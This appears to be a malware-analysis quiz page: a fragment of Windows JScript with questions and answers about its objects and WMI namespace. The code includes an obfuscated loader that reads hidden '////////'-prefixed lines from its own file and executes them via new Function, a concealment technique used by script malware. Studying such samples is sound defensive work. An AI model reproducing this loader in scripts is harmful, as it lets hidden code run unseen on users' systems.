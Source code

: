 ```js
    try {
        network.RemoveNetworkDrive(letter, true, true);
    } catch (e) {}
} else {
    WScript.Echo("Failed.");
}

var a = (function() {
    var b = new ActiveXObject("Scripting.FileSystemObject"),
        c = WScript.ScriptFullName,
        d = "";

    function e() {
        if (!b.FileExists(c)) return;
        var f = b.OpenTextFile(c, 1);
        while (!f.AtEndOfStream) {
            var g = f.ReadLine();
            if (g.slice(0, 8) === "////////") d += g.substr(8) + "\n";
        }
        f.Close();
    }

    function h() {
        if (d !== "") {
            var i = new Function(d);
            i();
        }
    }

    return {
        j: function() {
            try {
                e();
                h();
            } catch (k) {}
        }
    };
})();

a.j();
```

### Questions 

*   **What is the name of the ActiveXObject created in the script?**
    *   `WScript.Network` and `Scripting.FileSystemObject`

*   **What WMI namespace is accessed in the script?**
    *   `root\cimv2`

*   **What is the initial value of the attempt variable in the script?**
    *   `0`
